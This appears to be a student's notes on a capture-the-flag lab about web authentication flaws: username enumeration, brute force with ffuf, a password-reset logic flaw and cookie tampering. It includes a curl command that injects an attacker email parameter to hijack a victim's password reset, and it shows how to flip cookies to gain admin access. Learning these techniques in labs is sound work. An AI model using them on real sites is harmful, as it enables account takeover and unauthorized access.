 
# Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks.

Website error messages are great resources for collating this information to build our list of valid usernames.

we can go to the signup page and try entering a common username of admin. After doing so we get an error that the username already exists.

We can use this error message by sending a bunch of POST requests to the endpoint with a wordlist of potential usernames. In this case we can just use [[ffuf#Username Enumeration|ffuf]]

There's a couple of ways that the output could be handled, for example piping the output to a text file; or we can just manually copy the usernames over as there are very few.

# Brute Force

Using the list of usernames we got above, we can attempt to brute force passwords also using [[ffuf#Brute Force Passwords|ffuf]]

# Logic flaw

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.

In this case, we're told that there's a logic flaw in the reset password function on the test website. We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message Account not found from supplied email address

we'll use the email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter robert as the username and press the Check Username button, you'll be presented with a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.

```bash
curl 'http://10.10.45.7/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

we can create an account and redirect password resets to the new account. Doing so gives us a flag of

# Cookie Tampering

Examining and editing the [[cookies]] set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges

## Plain Text

The contents of some cookies can be in plain text, and it is obvious what they do.

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

sending a request to our given test website with a cookie who's values are modified to be logged in and true, we get back the flag THM{COOKIE_TAMPERING} 
## Hashing

Sometimes cookie values can look like a long string of random characters; these are called [[Hashing|hashes]] which are an irreversible representation of the original text.

for this lab, we're asked to find the value of a known md5 hash 3b2a1053e3270077456a79192070aa78. Looking it up in the database we get 463729
## Encoding

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible.